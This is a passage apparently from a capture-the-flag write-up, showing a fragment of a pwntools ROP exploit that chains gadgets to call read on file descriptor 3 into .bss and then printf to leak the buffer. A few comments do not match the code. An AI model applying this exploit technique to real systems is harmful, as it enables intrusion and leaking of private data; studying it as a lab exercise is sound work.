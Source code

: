 ```
#RDI:fd
#RSI:bss_addr
#RDX:100
bss_addr = 0x00601070
read_plt = elf.plt['read']
print("read plt :",hex(read_plt))
payload1 += p64(pop_rdi_addr).decode('unicode_escape')
payload1 += p64(3).decode('unicode_escape') #pop rdi
payload1 += p64(pop_rsi_addr).decode('unicode_escape')
payload1 += p64(bss_addr).decode('unicode_escape') #pop rsi
payload1 += p64(0).decode('unicode_escape') #pop r15
payload1 += p64(pop_rdx_addr).decode('unicode_escape')
payload1 += p64(0x100).decode('unicode_escape') #pop rax
payload1 += p64(read_plt).decode('unicode_escape')

#########printf(buf);
#RDI:buf
printf_plt = elf.plt['printf']
print("printf plt:",hex(printf_plt))
payload1 += p64(pop_rdi_addr).decode('unicode_escape')
payload1 += p64(bss_addr).decode('unicode_escape') #pop rdi
payload1 += p64(printf_plt).decode('unicode_escape')
payload1 = payload1.ljust(0x200,'\x00')
p.sendline(payload1)
p.shutdown('write')
p.interactive()
```

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
